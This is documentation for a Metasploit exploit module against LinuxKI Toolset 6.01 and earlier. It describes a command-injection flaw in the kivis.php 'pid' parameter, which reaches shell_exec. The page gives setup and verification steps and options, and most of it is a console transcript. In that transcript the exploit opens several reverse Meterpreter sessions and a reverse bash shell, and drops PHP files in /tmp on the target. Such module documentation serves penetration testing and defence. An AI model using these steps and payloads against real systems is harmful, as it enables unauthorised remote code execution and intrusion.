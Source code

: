 ## Vulnerable Application

LinuxKI Toolset <= 6.01

This module exploits a vulnerability in LinuxKI Toolset <= 6.01 which allows remote code execution.
The `kivis.php` `pid` parameter received from the user is sent to the `shell_exec` function, resulting in security vulnerability.

To test this application, you need to download the version 6.01 [here](https://github.com/HewlettPackard/LinuxKI/blob/v6.0-1/Dockerfile).
Do not forget to change [this URL](https://raw.githubusercontent.com/HewlettPackard/LinuxKI/master/rpms/linuxki-6.0-1.noarch.rpm) inside
the Dockerfile with [this one](https://github.com/HewlettPackard/LinuxKI/raw/v6.0-1/rpms/linuxki-6.0-1.noarch.rpm).

## Verification Steps
1. Install the application
2. Start msfconsole
3. Do: ```use exploit/linux/http/linuxki_rce```
4. Do: ```set RHOSTS```
4. Do: ```set LHOST```
5. Do: ```run```
6. You should get a shell.

## Options
### TARGETURI

The directory where LinuxKI Toolset is installed

### WritableDir

A writable directory file system path. (default: `/tmp`)

### ForceExploit

Override check result.

## Scenarios
### LinuxKI Toolset v6.01
```
msf5 > use exploit/linux/http/linuxki_rce
msf5 exploit(linux/http/linuxki_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)
   1   Automatic (PHP Dropper)
   2   Automatic (Unix In-Memory)
   3   Automatic (Linux Dropper)


msf5 exploit(linux/http/linuxki_rce) > set rhosts 192.168.1.43
rhosts => 192.168.1.43
msf5 exploit(linux/http/linuxki_rce) > set rport 32769
rport => 32769
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (PHP In-Memory) target
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.1.43
[*] Meterpreter session 1 opened (192.168.1.43:4444 -> 192.168.1.43:53126) at 2020-06-07 20:27:10 +0300

meterpreter > sysinfo
Computer    : 36503ef4f463
OS          : Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.43 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) > set target 1
target => 1
msf5 exploit(linux/http/linuxki_rce) > unset payload
Unsetting payload...
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (PHP Dropper) target
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.1.43
[*] Meterpreter session 2 opened (192.168.1.43:4444 -> 192.168.1.43:53133) at 2020-06-07 20:27:52 +0300
[!] This exploit may require manual cleanup of '/tmp/kB4gJoH4xozwDdUva6tjqt.php' on the target

meterpreter > sysinfo
Computer    : 36503ef4f463
OS          : Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.43 - Meterpreter session 2 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) > set target 2
target => 2
msf5 exploit(linux/http/linuxki_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (Unix In-Memory) target
[*] Sending payload...
[*] Command shell session 3 opened (192.168.1.43:4444 -> 192.168.1.43:53141) at 2020-06-07 20:29:56 +0300

uname -a
Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.1.43 - Command shell session 3 closed.
msf5 exploit(linux/http/linuxki_rce) > set target 3
target => 3
msf5 exploit(linux/http/linuxki_rce) > unset payload
Unsetting payload...
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (Linux Dropper) target
[*] Sending payload...
[*] Sending stage (980808 bytes) to 192.168.1.43
[*] Meterpreter session 4 opened (192.168.1.43:4444 -> 192.168.1.43:53146) at 2020-06-07 20:31:23 +0300
[!] This exploit may require manual cleanup of '/tmp/ag6G4ssIKEpH3lDyL.php' on the target

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : CentOS 7.8.2003 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.2 - Meterpreter session 4 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) >
```
